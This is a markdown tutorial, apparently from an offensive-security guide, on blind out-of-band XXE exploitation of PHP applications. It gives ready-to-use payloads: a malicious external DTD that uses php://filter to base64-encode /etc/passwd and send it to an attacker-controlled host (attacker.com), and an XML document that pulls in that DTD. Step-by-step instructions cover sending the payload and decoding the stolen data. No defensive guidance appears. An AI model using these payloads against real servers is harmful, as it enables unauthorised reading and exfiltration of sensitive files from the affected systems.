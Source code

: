 ```yaml
---
title: Exploit XXE OOB with DTD and PHP Filter in PHP
description: Learn to exploit XXE vulnerabilities using DTDs and php://filter for
  data exfiltration.
keywords:
- XXE exploitation
- php://filter
- DTD injection
- data exfiltration
- blind XXE
- PHP vulnerabilities
- base64 encoding
---
```


# XXE OOB with DTD and PHP Filter

## Context

This article demonstrates how to exploit blind XXE vulnerabilities in PHP applications by utilizing external DTDs and the `php://filter` stream wrapper. The objective is to exfiltrate sensitive data from a target server out-of-band. This technique involves base64-encoding the data and sending it over HTTP to an attacker-controlled endpoint. The reader should understand XML structure, DTD usage, PHP stream wrappers, Blind XXE fundamentals, and Out-of-Band XXE concepts.

## Theory

### php://filter Stream Wrapper and Base64 Encoding

`php://filter` is a special stream wrapper available in PHP, enabling data transformation during file reads or writes. One of its key features is the ability to apply filters such as `convert.base64-encode`, which facilitates encoding the contents of a file into base64 directly when accessed.

The following construct is employed in attacks: `php://filter/read=convert.base64-encode/resource=<file_path>`. This command reads the specified file and encodes its contents in base64, allowing attackers to subsequently extract this safely transmitted data.

### Dynamic DTDs for Out-of-Band Data Exfiltration

Dynamic DTDs refer to XML DTDs controlled externally by attackers and hosted on their own servers. These DTDs enable attackers to define specific entities intended for XXE payload exploitation. By referencing a remote DTD, it is possible to craft payloads where a PHP parser loads the provided DTD and executes the entity definitions embedded within it.

An attack sequence typically involves referencing a remote DTD that defines an entity to read and encode a file. The resulting encoded data is then exfiltrated via an HTTP request, sent back to the attacker's server.

### Exfiltration Workflow Using XXE, DTD, and php://filter

The process of leveraging XXE, DTD, and `php://filter` for data exfiltration can be illustrated with the following flowchart:

```mermaid
flowchart TD
    A[Attacker crafts XML referencing remote DTD] --> B[PHP parser loads DTD]
    B --> C[DTD defines entity using php://filter]
    C --> D[Entity reads and base64-encodes file]
    D --> E[Entity triggers HTTP request to attacker with encoded data]
    E --> F[Attacker receives exfiltrated data]
```

## Practice

### XXE OOB Exfiltration with DTD and php://filter

To execute this technique, follow the steps outlined below:

- **Host a malicious DTD file on your server:**

   The DTD will contain logic to read and encode a file as well as command the exfiltration via HTTP.

    ```xml
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
    <!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://attacker.com/?data=%file;'>">
    ```

    This DTD reads `/etc/passwd`, encodes it in base64, and prepares to send it over HTTP.

- **Craft the XML payload to reference the external DTD:**

    This step is critical to triggering the remote DTD and executing the exfiltration sequence.

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE data [
      <!ENTITY % dtd SYSTEM "http://attacker.com/malicious.dtd">
      %dtd;
      %all;
    ]>
    <data>&send;</data>
    ```

- **Send the crafted XML to the vulnerable PHP application endpoint:**

  Ensure that the target application passes this XML to its parsing logic.

- **Monitor your server logs for incoming HTTP requests:**

  Watch for requests containing base64-encoded data. Analyze the query strings for the encoded file contents.

- **Decode the exfiltrated base64 data to retrieve the original file contents:**

    Use the following command to decode the base64 string obtained from the exfiltration:

    ```bash
    echo '<base64-string>' | base64 -d
    ```

The outcome of this process is a successful exfiltration of sensitive files from the PHP server, transmitted as base64-encoded data over HTTP to the attacker's controlled environment.

## Tools

- **Burp Suite**
- **netcat**
- **Python HTTP server** 

This article has provided a comprehensive guide on leveraging XXE vulnerabilities with DTDs and `php://filter` for out-of-band data exfiltration. It combines theoretical understanding and practical instructions to equip you with knowledge for executing these advanced attack vectors effectively.